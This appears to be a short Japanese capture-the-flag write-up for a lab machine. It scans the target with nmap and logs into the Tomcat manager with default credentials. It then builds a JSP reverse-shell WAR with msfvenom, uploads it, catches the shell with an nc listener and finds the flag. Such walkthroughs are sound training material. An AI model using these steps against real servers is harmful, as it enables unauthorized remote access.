# 1.Port Scan
ip=10.10.10.95

nmap -sC -sV -Pn $ip



http://$ip:8080



Username:admin
Password:password 

上記でログイン

ログインに失敗したがユーザネームとパスワードを取得



各種ページにログイン成功

Sarver Status



Tomcat Web Application Manager



Host Manager はログイン失敗



ヴェノムフレームワークでシェルコードを作成

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f war > shell.war`   



作成したシェルをアップロード



shellディレクトリを作成される



ポートを解放する

`nc -lvnp 4444`

作成したshellディレクトリにアクセス



tomcat サーバへ接続



flagを発見

